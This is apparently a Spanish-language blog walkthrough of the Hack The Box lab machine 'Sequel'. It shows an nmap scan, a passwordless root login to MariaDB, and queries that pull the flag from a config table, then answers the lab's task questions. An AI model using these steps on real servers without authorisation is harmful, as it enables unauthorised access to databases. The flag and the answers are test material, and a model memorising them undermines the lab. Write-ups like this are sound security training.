 ```yaml
---
title: HackThebox - Sequel
date: 2023-05-19
categories: [Hackthebox, HTB-VeryEasy]
tags: [Starting Point, Linux]
image:
  path: ../../assets/img/post/sequel/sequel.jpg
  width: 800
  height: 500
  alt: Banner Sequel
---
```


Vamos a estar resolviendo la maquina sequel del starting point. 

Lo primero que vamos a hacer seria un ping a la ip de la maquina victima:
```bash
❯ ping -c 1 10.129.255.68
PING 10.129.255.68 (10.129.255.68) 56(84) bytes of data.
64 bytes from 10.129.255.68: icmp_seq=1 ttl=63 time=54.6 ms

--- 10.129.255.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 54.636/54.636/54.636/0.000 ms 

```
Le enviamos un paquete y recibimos el paquete de vuelta, esto quiere decir que la maquina esta activa.

Empezamos con el reconociento a la maquina victima, con nmap:
```bash 
❯ nmap -sC -sV 10.129.255.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 21:39 AST
Nmap scan report for 10.129.255.68 (10.129.255.68)
Host is up (0.055s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.67 seconds
```
Miramos en nuestro escaneo que el servicio que esta corriendo en esta maquina es mysql, en este caso nos enfrentamos a una database.

Vamos a intetar conectarnos a esta base de datos con mysql:

```bash 
❯ mysql -h 10.129.255.68 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 56
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Al conectarnos a la database con el usuario root, ya tendriamos acceso a los datos.

Ahora listemos todas las base de datos que tenemos dentro de la maquina:

```sql
MariaDB [(none)]> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.065 sec)
```

Miramos 4, vamos a selecionar htb para ver que info encotramos:
```sql
MariaDB [(none)]> USE htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Listamos las tablas de esta:
```sql
MariaDB [htb]> SHOW tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (2 min 16.660 sec)
```

Quiero ver todo el contenido de la tabla config, para listarlo lo que hago es:
```sql
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.060 sec)
```
Aqui en los datos de la tabla podemos ver la flag, con esto tendriamos la parte practica completa.

Ahora pasamos a responder las preguntas de la maquina:

## Task 1. 
What does the acronym SQL stand for?
```text
Structured Query Language
```
## Task 2.

During our scan, which port running mysql do we find?
```text
3306
```
## Task 3.

What community-developed MySQL version is the target running?
```text 
MariaDB
```
## Task 4.

What switch do we need to use in order to specify a login username for the MySQL service?
```text
-u
```
## Task 5.

Which username allows us to log into MariaDB without providing a password?
```text
root
```
## Task 6.

What symbol can we use to specify within the query that we want to display everything inside a table?
```text
*
```
## Task 7.

What symbol do we need to end each query with?
```text
;
```
